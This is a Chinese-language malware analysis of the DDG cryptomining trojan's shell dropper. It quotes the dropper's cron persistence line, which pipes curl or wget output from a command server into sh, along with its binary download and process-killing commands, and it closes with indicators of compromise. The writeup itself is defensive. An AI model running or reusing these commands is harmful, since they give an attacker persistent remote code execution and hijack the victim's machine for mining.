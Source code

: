 ## 一、DDG 木马脚本内容

黑客在通过SSH爆破或漏洞攻击入侵后，首先下载Shell脚本i.sh，并将其安装为crontab定时任务每15分钟执行一次。主要根据机器的平台架构选择对应版本的ddg二进制文件(i686和x86_64)。

```
mkdir -p /var/spool/cron/crontabs

echo "" > /var/spool/cron/root

echo "*/15 * * * * (/usr/bin/nfosfa4||/usr/libexec/nfosfa4||/usr/local/bin/nfosfa4||/tmp/nfosfa4||curl -fsSL -m180 http://68.183.140.39/i.sh||wget -q -T180 -O- http://68.183.140.39/i.sh) | sh" >> /var/spool/cron/root

cp -f /var/spool/cron/root /var/spool/cron/crontabs/root 
```

然后检测是否已经存在进程nfosfa4，若存在则杀死进程并删除对应的文件，然后从服务器下载ddgs.$(uname -m)保存为nfosfa4，其中uname –m用来获取系统类型并映射到文件名。最后通过chmod +x给nfosfa4赋予可执行权限，从而完成木马的下载更新。

```
ps auxf | grep -v grep | grep nfosfa4 || rm -rf nfosfa4

if [ ! -f "nfosfa4" ]; then

curl -fsSL -m1800 http://68.183.140.39/static/4004/ddgs.$(uname -m) -o nfosfa4||wget -q -T1800 http://68.183.140.39/static/4004/ddgs.$(uname -m) -O nfosfa4

fi

chmod +x nfosfa4 
```

接着查找并杀死多个历史版本的病毒进程，进程名分别为nfosbcb、nfosbcc、nfosbcd、nfosbce、nfosfa0、nfosfa1、nfosfa2。

```
ps auxf | grep -v grep | grep nfosbcb | awk '{print $2}' | xargs kill -9

ps auxf | grep -v grep | grep nfosbcc | awk '{print $2}' | xargs kill -9

ps auxf | grep -v grep | grep nfosbcd | awk '{print $2}' | xargs kill -9

ps auxf | grep -v grep | grep nfosbce | awk '{print $2}' | xargs kill -9

ps auxf | grep -v grep | grep nfosfa0 | awk '{print $2}' | xargs kill -9

ps auxf | grep -v grep | grep nfosfa1 | awk '{print $2}' | xargs kill -9

ps auxf | grep -v grep | grep nfosfa2 | awk '{print $2}' | xargs kill -9 
```

然后启动病毒的最新版本nfosfa4，病毒被存放于以下四个目录之一。

```
/usr/bin/nfosfa4

/usr/libexec/nfosfa4

/usr/local/bin/nfosfa4

/tmp/nfosfa4 
```

在新版本中的i.sh版本中的下载链接替换成了域名的形式，并且每次访问域名都会随机替换。下载的是DDG的go语言编译的母体文件，其主要作用有创建守护进程、创建后门、下载挖矿程序挖矿（SzdXM）、命令执行这4个功能。



### IOCs

钱包地址：8AzmXnQJ4kjNmcE4w6mwVabzhUTZ4jsaj5rmBgJosvrD7ag7TPTG2U4Kruv5Mevxp2BE8K6n9YJGfeLYZzkCDUdNGHT8sUy

C2：68.183.140.39

### URI：

> http://103.219.112.66:8000/slave
>
> http://68.183.140.39:8000/static/4004/ddgs.i686
>
> http://68.183.140.39:8000/static/4004/ddgs.x86_64
>
> http://68.183.140.39:8000/static/SzdXM

### MD5:

> ddgs.x86_64 : BDFA1C43B3E03880D718609AF3B9648F
>
> ddgs.i686 : 76309D50AD8412954CA87355274BD8FF
>
> SzdXM :F24E35D722150B5E2E70F316734D88F